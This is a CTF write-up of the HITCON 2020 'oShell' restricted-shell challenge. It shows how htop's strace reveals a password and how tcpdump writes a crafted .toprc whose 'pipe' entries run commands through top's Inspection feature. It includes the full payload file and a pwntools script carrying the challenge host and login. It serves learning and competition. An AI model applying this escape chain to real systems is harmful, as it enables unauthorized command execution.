

HITCON CTF 2020 oShell

# HITCON CTF 2020 oShell

## Description
> oShell \[280pts\]  
> Simple shell escaping!  
> (Same team-token keeps in the same environment)
> 
> ssh oshell@54.150.148.61 (pwd=oshell)
> 
> Author: Orange  
> 21 Teams solved.

https://github.com/orangetw/My-CTF-Web-Challenges#oShell

## tl;dr
1. htop strace
2. `tcpdump -r - -w /home/oShell/.toprc`

## Walkthrough

After logging in with the team token, it presents a very limited shell (oShell). 

```
[*] Initializing instance...

Welcome to
        __  _            _  _
  ___  / _\| |__    ___ | || |
 / _ \ \ \ | '_ \  / _ \| || |
| (_) |_\ \| | | ||  __/| || |
 \___/ \__/|_| |_| \___||_||_|

oshell~$ help
Available commands:
  help
  exit
  id
  ping
  ping6
  traceroute
  traceroute6
  arp
  netstat
  top
  htop
  enable
oshell~$

```

### Stage 1: htop strace

The first target is to `enable` but it requires a password.

```
oshell~$ enable
Password:
Wrong password :(
oshell~$
```

Randomly creating connection to the server, sometimes it will show some errors. The path of the password is in `/enable.secret`. Sadly we can't read it :(

```
docker: Error response from daemon: Conflict. The container name "/team-xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx" is already in use by container "e52cbba1e1478062a7d3ffb706179c72b40fa03134b3ce24f46d81576a5eb
4a7". You have to remove (or rename) that container to be able to reuse that name.
See 'docker run --help'.
Traceback (most recent call last):
  File "/home/orange/oShell-wrapper.py", line 78, in <module>
    my_exec(cmds)
  File "/home/orange/oShell-wrapper.py", line 38, in my_exec
    return check_output(cmds)
  File "/usr/lib/python2.7/subprocess.py", line 223, in check_output
    raise CalledProcessError(retcode, cmd, output=output)
subprocess.CalledProcessError: Command '['sudo', 'docker', 'run', '-d', '--rm', '--env', 'LOG_HOST=172.17.0.1', '-v', '/home/orange/tmp/team-xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx_8aVBVM:/enable.secret', '
--name', 'team-xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx', 'oshell']' returned non-zero exit status 125
Connection to 54.150.148.61 closed.
```

After playing around with the commands available in the shell, we found that it is possible to do `strace` on another process with `htop` by pressing `s`, thus the secret exposed when the python script attempted to compare the passwords on another terminal.



But the challenge is not ending here...

### Stage 2: relaxed `.toprc` config

After 'enabling' the shell, few more commands appeared

```
(enabled) oshell~# help
Available commands:
  help
  exit
  id
  ping
  ping6
  traceroute
  traceroute6
  arp
  netstat
  top
  htop
  ifconfig
  tcpdump
  enable

```

Running enable twice does not help, so i guess we need to do RCE then. The most suspicious command is the `tcpdump`, as it is the most complex one.

We attempted to run post-rotate commands in `tcpdump` but seems that it does not work at all. 

Later, we discovered that the `top` command [contain an special feature called Inspection](https://manpages.ubuntu.com/manpages/xenial/man1/top.1.html). It can be accessed by pressing `Y` in `top`, and it can run commands base on the config file's content (`~/.toprc`). It effectively converting an Arbitrary File Write to RCE, but how can we write files?

After reading the manuals and some trial and error on my local docker, we found out that the `tcpdump` command can write file with custom content using `tcpdump -r - -w /path/to/file`, which reads `stdin` for a pcap and write to the destination file.

... Sounds good! But `tcpdump` only accept pcap file as an input.

Luckily the format of `.toprc` is very relaxed so we can embed the content of it in a pcap file, therefore we can do RCE. The pcap file can be generated by `curl -T .toprc http://example.com` while `tcpdump` it locally, and I wrote an semi-auto interactor to send the pcap file to the remote server.

#### Content of `.toprc`
The first half are the default `top` configs.
```
top's Config File (Linux processes with windows)
Id:i, Mode_altscr=0, Mode_irixps=1, Delay_time=1.500, Curwin=0
Def	fieldscur=¥&K¨³´»½@·º¹56ÄFÅ')*+,-./0128<>?ABCGHIJLMNOPQRSTUVWXYZ[\]^_`abcdefghij
	winflags=162102, sortindx=18, maxtasks=0, graph_cpus=1, graph_mems=2
	summclr=1, msgsclr=1, headclr=3, taskclr=1
Job	fieldscur=¥¦¹·º(³´Ä»½@<§Å)*+,-./012568>?ABCFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghij
	winflags=163124, sortindx=0, maxtasks=0, graph_cpus=2, graph_mems=0
	summclr=6, msgsclr=6, headclr=7, taskclr=6
Mem	fieldscur=¥º»<½¾¿ÀÁMBNÃD34·Å&'()*+,-./0125689FGHIJKLOPQRSTUVWXYZ[\]^_`abcdefghij
	winflags=163124, sortindx=21, maxtasks=0, graph_cpus=2, graph_mems=0
	summclr=5, msgsclr=5, headclr=4, taskclr=5
Usr	fieldscur=¥¦§¨ª°¹·ºÄÅ)+,-./1234568;<=>?@ABCFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghij
	winflags=163124, sortindx=3, maxtasks=0, graph_cpus=2, graph_mems=0
	summclr=3, msgsclr=3, headclr=2, taskclr=3
Fixed_widest=0, Summ_mscale=2, Task_mscale=1, Zero_suppress=0

# This few lines can run command using the Inspection feature
pipe	111	cat /* 2>&1
pipe	222	ls -al / 2>&1
pipe	333	/readflag 2>&1
```

#### Interactor
```py
import re
from pwn import *

team_token = "xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx"

toprc = open('toprc', 'rb').read()

# https://stackoverflow.com/questions/46329447/write-non-ascii-characters-to-stdin-of-a-progam-on-a-tty-over-ssh
toprc = re.sub(br'(.)', b'\x16\g<0>', toprc)

# sshpass -p oshell ssh oshell@54.150.148.61
def new():
    s = ssh(
        host='54.150.148.61',
        user='oshell',
        password='oshell',
        timeout=5,
        level=9
    )

    r = s.run('')
    r.recvuntil('Team token: ')
    r.sendline(team_token)
    r.recvuntil('oshell~$ ')
    return r

r1 = new()
r1.interactive()

# After enabling, Press Ctrl+D to send payload

r1.sendline("tcpdump -r - -w /home/oShell/.toprc")
sleep(2)
r1.sendline(toprc)

# Send some Ctrl+D, Ctrl+C
r1.send("\x04\x03\x03\x03\x03")

r1.interactive()
```

After writing the `.toprc`, run `top` on the another shell and profit (利潤！).

